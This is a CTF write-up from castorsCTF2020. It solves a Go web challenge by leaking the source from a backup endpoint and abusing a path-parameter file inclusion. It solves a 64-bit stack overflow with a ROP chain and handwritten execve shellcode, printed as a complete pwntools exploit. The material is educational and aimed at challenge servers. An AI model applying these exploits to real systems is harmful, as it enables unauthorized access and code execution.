



# Introduction

Hey everyone, I participated with my team from Sousse, with love in the castorsCTF2020, we got 3rd place out of 500+ teams. This will be a detailed writeup about a web task and a pwn task. So i hope you like it :heart:.

# Web Challenge: Quiz

## TL;DR

1. Bruteforce filename
2. Leak the backup file of the main.go
3. Leak the flag with a local file inclusion

## Description


## Overview

Accessing the website we get a little welcome message


the source didn't got any useful information so I clicked on the Math hyperlink and that provides to us some math problems followed by their indexes and two inputs at the bottom from which we can input the index of the problem and the solution to it.


Again nothing useful in the source, so trying to solve one of these questions will return back a message that our answer is correct otherwise it will return back a message that our answer is wrong.


So the first step as usual is to try to break this app and make return an error message so we can get more info about the environment we are in. And to do that I tried to enter some characters instead of numbers.


And unfortunately this broke it because it will try to convert a non digit character to an integer which will basically generate a runtime error.


Of course we cannot exploit the `strconv.Atoi` function. Trying the same thing with the second input (the answer input) didn't reveal any errors. You may think that it was evaluating the second input but hey there is no eval/exec method in go and I don't think that the author created or included a package to do that. So nothing helpful here. Thinking a little bit, I decided to bruteforce the filenames maybe that reveals some helpful info and maybe more endpoints to target. For this job, I used to famous project gobuster with a wordlist of some common filenames.


Good we got a folder called backup. Accessing it leaks the source code of the `main.go` file. Taking a look at it.

```go
package main

import (
	"bufio"
	"encoding/csv"
	"fmt"
	"html/template"
	"net/http"
	"net/url"
	"os"
	"strconv"

	"github.com/julienschmidt/httprouter"
)

var local *template.Template
var probs *template.Template

func init() {
	local = template.Must(template.ParseGlob("./files/*"))
	probs = template.Must(template.ParseGlob("./problems/*"))
}

func main() {
	mux := httprouter.New()

	mux.GET("/", index)
	mux.GET("/test/:directory/:theme/:whynot", super)
	mux.GET("/problems/math", math)
	mux.POST("/problems/math", mathCheck)

	//Remember to Delete
	mux.GET("/backup/", backup)

	//Serve File with Directory listing
	http.ListenAndServe(":8080", mux)
}
func index(w http.ResponseWriter, req *http.Request, _ httprouter.Params) {
	err := local.ExecuteTemplate(w, "start.html", nil)
	handleError(w, err)
}

func backup(w http.ResponseWriter, req *http.Request, _ httprouter.Params) {
	http.ServeFile(w, req, "main.go")
}

func mathCheck(w http.ResponseWriter, req *http.Request, _ httprouter.Params) {
	err := req.ParseForm()
	handleError(w, err)
	check(w, req.Form)
}
func math(w http.ResponseWriter, req *http.Request, _ httprouter.Params) {
	game(w)
}
func file(w http.ResponseWriter, req *http.Request, _ httprouter.Params) {
	http.FileServer(http.Dir("."))
}

func check(w http.ResponseWriter, form url.Values) {
	answers, err := os.Open("problems/answers.csv")
	handleError(w, err)

	data, _ := csv.NewReader(answers).ReadAll()

	index, err := strconv.Atoi(form[])
	handleError(w, err)
	value := form[]

	f_answers := make(map[]string)

	for i, v := range data {
		f_answers[]
	}

	if f_answers[] == value {
		last := struct {
			Header string
			SorC   string
		}{
			"correct!!",
			"Congrats!",
		}

		err := probs.ExecuteTemplate(w, "mathCheck.gohtml", last)
		handleError(w, err)
	} else {
		last := struct {
			Header string
			SorC   string
		}{
			"incorrect.",
			"Sorry...",
		}

		err := probs.ExecuteTemplate(w, "mathCheck.gohtml", last)
		handleError(w, err)

	}

}
func super(w http.ResponseWriter, req *http.Request, ps httprouter.Params) {
	fmt.Println(ps.ByName("whynot"))
	var file string = "/" + ps.ByName("directory") + "/" + ps.ByName("theme") + "/" + ps.ByName("whynot")
	test, err := os.Open(file)
	handleError(w, err)
	defer test.Close()

	scanner := bufio.NewScanner(test)
	var content string
	for scanner.Scan() {
		content = scanner.Text()
	}

	fmt.Fprintf(w, "Directories: %s/%s\n", ps.ByName("directory"), ps.ByName("theme"))
	fmt.Fprintf(w, "File: %s\n", ps.ByName("whynot"))
	fmt.Fprintf(w, "Contents: %s\n", content)
}

func handleError(w http.ResponseWriter, err error) {
	if err != nil {
		http.Error(w, err.Error(), http.StatusInternalServerError)
		fmt.Print(err)
	}
}

func game(w http.ResponseWriter) {
	problems, err := os.Open("problems/problems.csv")
	if err != nil {
		fmt.Println(err)
	}

	data, err := csv.NewReader(problems).ReadAll()

	//Create empty struct to contain questions and their indexes
	questions := struct {
		Index    int
		Question string
	}{}
	ques := make([]struct {
		Index    int
		Question string
	}, 0)
	for i, v := range data {
		questions.Index = i + 1
		questions.Question = v[]
		ques = append(ques, questions)
	}

	err = probs.ExecuteTemplate(w, "math.gohtml", ques)
	handleError(w, err)
}
```

The main function will set the files that we have access to and what methods we are allowed to use while accessing them, and how will each method behave based on a function reference passed as the second argument to the method. `mux.GET("/", index)` accessing the root of the website will show the content of the `start.html` file, `mux.GET("/problems/math", math)` accessing /problems/math as we have seen above will show us the math problems the inputs to answer them, `mux.POST("/problems/math", mathCheck)` accessing it with a POST request will check if our answer is correct based on the index and the answer we gave to it, `mux.GET("/backup/", backup)` accessing it will reveal the content of the main.go, and finally `mux.GET("/test/:directory/:theme/:whynot", super)`. That's the most important function here that I'm going to focus on. The `:directory, :theme, :whynot` are replaced with our string when accessing it, you can know that by looking here also

```go
var file string = "/" + ps.ByName("directory") + "/" + ps.ByName("theme") + "/" + ps.ByName("whynot")
```

then it will try to open the file based on our input. For example accessing http://web1.cybercastors.com:14436/test/anything/t0m/7r00z will try to open the file located at `/anything/t0m/7r00z` which is of course not found and the function will return `no such file or directory`.


Okay so we have a local file inclusion here. Being completely blind about where the application is located at and what files are on the system I first included `/proc/self/cmdline` to get a basic idea of the command being run. That's what I got.

```
Directories: proc/self
File: cmdline
Contents: /tmp/go-build542500555/b001/exe/main
```

Not really useful, let's see if I have access to the `/proc/self/environ`. And yes I do.

```
Directories: proc/self
File: environ
Contents: HOSTNAME=a67d58c9b465HOME=/rootPATH=/go/bin:/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binGOPATH=/goPWD=/quizGOLANG_VERSION=1.14.3
```

and the important thing here is the PWD environment variable which is basically the current working directory. In this case it's `/quiz`. We also see that the home directory is `/root`. Knowing that I tried to include some files that I might have the flag. And in order to access files from the same directory I used netcat to pass the `.` (which means current directory), because all of the three names where required if you don't pass any of them you will get a `404 not found status code back` and because if you pass that with the browser or with the curl command they will remove it and that's the same case with the `..`, Knowing that I constructed the HTTP request with just two headers (because no need to include more headers here) which are the `Host`and the `Connection` header. The `Host` is used to indicate the host that we are trying to make the connection to, the `Connection` is used to indicate whether the connection should stay or should close after the transaction completes, so if we say `Connection: close` means that the connection will close after the transaction and `Connection: keep-alive` means that the connection will stay open after the transaction. Okay so let's start start by constructing the request.

```
GET /test/quiz/./flag.txt HTTP/1.1
Host: web1.cybercastors.com:14436
Connection: close
```

Going to the terminal and typing: `nc web1.cybercastors.com 14436`, then pasting the request there and hitting enter two times (so break line two times because that's how HTTP requests work) will pass the request to the server and it will show it's content back. But trying with `/quiz/./flag.txt, /quiz/problems/flag.txt, /root/./flag.txt` fails, all of them failed.



Remember that the leak is just the last of the file, so leaking the /etc/passwd wouldn't really give useful info about what users might have accounts on the system, and also the last line of the /etc/passwd is just that:


And here where the description is being a key to solve the challenge. Let's read it again.


`Our intern, Jeff`! So maybe there is a user called jeff on the system. Trying to access `/home/jeff/flag.txt` revealed the flag!


# Pwn Challenge: babybof1 pt2

## TL;DR

1. write code to the .data section with a ropchain
2. jump to the shellcode and get a shell

## Description


## Overview

Starting with the dynamic analysis as usual by running the given binary and interacting with it.

Let's first get some info about the binary using the file command.


A 64-bit executable, dynamically linked and not stripped.

### Breakpoint

Dynamically linked means that the binary is relying on shared-libraries to do some parts of the job. Now the opposite of dynamically linked is statically linked.

Statically linked means that the binaries is not in need of external libraries to work. Meaning it has all the dependencies within it.

Not stripped means that the binary has debugging symbols, and that makes debugging it easier. The opposite of that is stripped.

Stripped means that the binary is not having debugging symbols which makes it harder to reverse and debug. For example there would be no function names in a stripped binary and you would need to predict the functions based on their functionalities.

### Continue


Now let's run the binary


Not really that much, it just asks for a name, takes the input and then exits. From the challenge name, it should be a buffer overflow. So let's confirm it by entering so many characters overflowing the return instruction pointer and causing a segmentation fault.


Okay so we are dealing with a stack based overflow here. Let's get to the static analysis part now by opening the binary in disassembler and taking a look at the source code and the functions it's calling + the defined functions there.

```c
void main(void)

{
  char local_108 [];
  
  puts("Welcome to the cybercastors Babybof");
  printf("Say your name: ");
  gets(local_108);
  return;
}
```

So we expected it asks for the name and take our input, and in here its taking it using the famous function gets which caused the stack buffer overflow because it doesn't check for the length of our input, so if we enter a string that has more than 256 characters we will start overflowing data on the stack. So taking a look for the functions in the binary, there is a function called get_flag but in this task we are not going to call it because this function is for the part 1 of this task (a challenge called `babybof1`) and we are here taking a look at the second part of it which wants us to get a shell. No other interesting functions. Let's take a look at the securities of the binary.

```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

All securities are disabled and we have a partial relro.

### Breakpoint

a breakpoint to make some people somehow familiar with these securities.

#### A disabled/enabled canary:

a canary or more specifically a stack canary is a random string placed before the return instruction pointer on the stack to stop stack smashing. The way it works is that before following the return instruction pointer the program checks whether the value of the canary is changed or not. So if it's changed then the program will stop and return a stack smashing detected error, otherwise it will complete it's execution. This random value is initialized every time you start executing a function (so a stack canary for each function being run by the program). The stack buffer overflow may still occur because the program only checks if the stack canary is changed so you still can overflow values before heating the stack canary. Also there are some other techniques to bypass it like leaking it or bruteforcing but this need a specific scenario in order to perform these attacks. Fun fact: i was reading one day they called it stack canary because miners where using canaries when being in mine tunnels as a tool to alert them if a dangerous gas is being in the tunnel, because the gas will kill the canaries before the miners making an alert to them to quit.

#### A disabled/enabled NX (non executable):

The NX bit or the non executable bit is a protection used to make memory used by the program non executable. Which means you can't inject shellcode on the stack for example and then jump to it to execute it. But if it's disabled then you could do that.

#### A disabled/enabled PIE:

PIE or position independent executable is used making the addresses of the function/instructions are going to be changed everytime to make the program. Disabling it will make everything load on a specific location.

#### A partial/full relro:

relro is a reference to relocation read only which a protection used to make some sections of the binary read only.

A partial relro means that we still have write permission on the GOT (the global offset table is a table that contains offsets to addresses of external functions to execute []).

Also the partial relro is a way to tell the compiler to make the GOT before the BSS section so that even if an overflow of a global variable it wouldn't overwrite the entries in the GOT section.

A full relro means that the entire GOT now is read only, that means we can't overwrite any of the addresses there.

#### A disabled/enabled ASLR:

ASLR is a reference to Address Space Layout Randomization is used by the system making the addresses in memory where the program, the included libraries, the stack and the heap random. Disabling it will make them at a specific location everytime.

### Continue

knowing that, let's start with exploiting the binary.

## Exploitation

Okay, we wouldn't put our shellcode on the stack and then jump to it because ASLR is enabled and we wouldn't know the address of the our buffer on the stack. This tactic is used when ASLR is disabled, you can leak addresses from the stack, the program is providing you the address of the buffer on the stack.

So what I'm going to do here is placing my shellcode on a section that is not affected by the ASLR. For example the BSS or the DATA section. And in order to do that I'm going to use some gadgets (basically a return oriented programming attack). Before even going to decide if you are going to place you shellcode on the a section, you need to know whether it's writable or not. My favorite technique is to use ghidra in order to do that. You can do that by going on the menu to `Windows --> Memory Map`.


### Breakpoint

Rop is a reference to return oriented programming, which is an attack usually used to bypass NX. It's performed by chaining together pieces of assembly code called gadgets to make a valid instructions and control the program.

### Continue

Let's start by determining how many bytes should we overwrite in order to reach the return instruction pointer and get control of the execution flow. A technique i like to do that is to use a patter of non repeatable characters throw them into the program with gdb causing a segmentation fault and printing the overwrited return instruction pointer. I first generate the patter with the function cyclic() from the pwntools library and the cyclic_find() function to get the offset. Since our buffer is 256 bytes so we can generate a pattern with 300 bytes long.


passing that to the program with gdb


### Breakpoint

you can save the patter to a file and then run gdb with `r < filename`

but hey I think that's faster.

### Continue

Hitting enter, since we are exploiting a 64-bit program overflowing the program entering this huge buffer will not overwride the return instruction pointer directly because the rip (register pointing to the instruction pointer in 64-bit []) from the stack directly. 


And since I'm using a gdb plugin this will make thing more clear and help us in our trip of exploiting. So in that case of the 64-bit executable, we will take a look at the value of the rbp (register pointing to the base pointer, when starting to execute a function it's value is set to the stack pointer [] and it's used to access local parameters and variables based on an offset) since we have overwritten it and it's just placed before the return instruction pointer in order to overwrite the return instruction pointer with the correct address. We can print the value of the rbp on gdb by entering `p $rbp, print $rbp` or by showing all the registers information using the command `i r, info reg, info registers` what ever you like :joy:.


then we need to search for this value in our patter using the cyclic_find() function, and since this function will perform the search based on the first 4 bytes so we will pass to it the first 4 bytes of the base pointer (0x63616170) then add 4 to it in order to get the right offset.


so our offset is 264 we can confirm that by entering 'A' 264 times and then overwrite the return instruction pointer with some 'B'. That will be our payload:


Entering in gdb will overwrite the return instruction pointer making it point to `0x0000424242424242`



Good we got the math right. Now let's start by constructing our ropchain. For this purpose I used the famous tool ROPgadget to search for the gadgets. 


I redirected the output to a file because it might have a lot of gadgets and this will take time to get them so I don't want to run the program everytime and wait for output.

### Breakpoint

In 64-bit the parameters to functions are passed threw register. So we have

````
RDI -> first paramter
RSI -> second parameter
RDX -> third parameter
````

there is more of course but usually you are just using these registers.

In 32-bit the parameters are passed threw the stack.

### Continue

Our ropchain will be:

1. pass the address of the .data section to the gets function since it's already included in the binary we can just access it threw PLT and then write our shellcode
2. jump to the shellcode and execute it to get a shell

Knowing that we need to find a gadget that will pop rdi and return. So let's grep for one.


okay so our gadget is located at `0x00000000004007f3`. This gadget will:

1. `pop rdi` --> load the data pointed to by the stack pointer (again, the data on the top of the stack) into the rdi register which is our first parameter
2. `ret` --> `pop rip` --> loading the data pointed to by the stack pointer into instruction pointer register so it knows what is the next instruction to execute

Remember that each time you make a pop the stack pointer will move to the next address and start pointing to it.

With that being said, let's start to write our exploit with the famous python library pwntools.

```python
#!/usr/bin/python2

from pwn import *

context.update(arch="amd64", os="linux", bits=64)
r = process("./babybof")
#r = remote("chals20.cybercastors.com", 14425)
#print(r.recvuntil("name: "))
pop_rdi = 0x00000000004007f3
gets_plt = 0x4005d0
data = 0x0000000000601058
payload = ""
payload += "A"*264
payload += p64(pop_rdi)
payload += p64(data)
payload += p64(gets_plt)
r.sendline(payload)
r.interactive()
r.close()
```

so I told the pwntools that I'm going to play with a 64-bit executable compiled for linux. we start by running the binary with the process() function. And I also initialzed the varibale r with the remote() function to connect to the server but I commented for the time because we need to interact and test our payload against the local binary. I also commented the r.recvuntil("name: ") because the local binary didn't got the right buffering and so the name: string is not outputed, this will make pwntools search for the string forever until you set a timeout so if the string didn't appear in the number of seconds passed in with the timeout argument it will complete it's execution, you can test with `print(r.recvuntil("name: ", timeout=3))`.

I then set up some variables with the addresses of our gadget, the gets@plt address and the data section address. You can find the gets@plt function by disassembly the main function with gdb, running the command `disas main`.



and you can get the address of the data section by running `info files` with gdb or with your favorite disassembler.


You can get the size of the section by subtracting the first address from the second. For example for the data section it's `0x0000000000601068 - 0x0000000000601068 = 16` also the disassemblers out there like ghidra would show it to you. You might that 16 bytes of space is not enough especially when we are writing 64-bit shellcode but it's not problem here because the data and bss sections are below each other and so our buffer will overflow to the bss section making the full shellcode together. the p64() function is a way used to convert from an integer little/big endian because that's how it will be correctly placed in memory and that the program will understand it. It's basically packing the integers. Good so let's start with making our shellcode. 

```python
shellcode = asm("""
    mov rax, 59
    mov rdi, {0}
    xor rsi, rsi
    xor rdx, rdx
    syscall
""".format(data+22))
```

I just wanted to make one and not grab one from shell-storm for example. First, remember we are here trying to make a shellcode that will call `execve("/bin/sh", NULL, NULL)`.`rax` is the register holding the syscall number in 64-bit (it's eax in 32-bit) and we want to call to call `sys_execve`, it is the syscall number 59 so I placed 59 there. `mov` is the mnemonic in assembly to move data from register to register, memory to register, register to memory and I used it here to make `rax` hold the value 59. I suggest a good resource for getting the syscall number is w3challs syscall table, here is the link: https://syscalls.w3challs.com/. Next, as I explained above `rdi` is the first argument which should hold a pointer to the string "/bin/sh" in memory. I made a little format string here and said that the string "/bin/sh" will be in data+22 so in the address `0x0000000000601058 + 22 = 0x000000000060106e` and I said +22 because our shellcode length is 22 bytes and I will place the string "/bin/sh" just after it. Don't forgot to add a nullbyte at the end of the "/bin/sh" so it will stop reading it there. `rsi` is the second argument and it would be null so I used the mnemonic xor to clear it (basically set it to 0) I could also just do `mov rsi, 0`. same thing with the third argument. And finally, the `syscall` which will interrupt with the kernel to get the sys_execve system call. So let's place that in our exploit and place the "/bin/sh" followed by a null byte. And that's our final exploit.

```python
#!/usr/bin/python2

from pwn import *

context.update(arch="amd64", os="linux", bits=64)
r = process("./babybof")
#r = remote("chals20.cybercastors.com", 14425)
#print(r.recvuntil("name: "))
pop_rdi = 0x00000000004007f3
gets_plt = 0x4005d0
data = 0x0000000000601058
shellcode = asm("""
    mov rax, 59
    mov rdi, {0}
    xor rsi, rsi
    xor rdx, rdx
    syscall
""".format(data+22))
payload = ""
payload += "A"*264
payload += p64(pop_rdi)
payload += p64(data)
payload += p64(gets_plt)
payload += p64(data)
r.sendline(payload)
payload = ""
payload += shellcode
payload += "/bin/sh\x00"
r.sendline(payload)
r.interactive()
r.close()
```

Let's walkthrough the exploit one more time. So first we place 264 'A' so we reach the return instruction pointer, we overwrite the return instruction pointer with the address pointing to the instruction `pop rdi; ret`, we place the address of data in the rdi register because it's the register to hold the first argument to call the function (in this case calling the function gets with it). then remember the `ret` that will do a `pop rip` we are placing into it the address of the data section again because we have our shellcode there and we want to start executing it. finally when it will run the gets will wait for our input so we enter our shellcode followed by the string "/bin/sh" followed by a null byte as I explained above. After testing the exploit locally, let's test that remotely and get the flag.


And yeah that's all about it. If you have any questions don't be shy to ask.
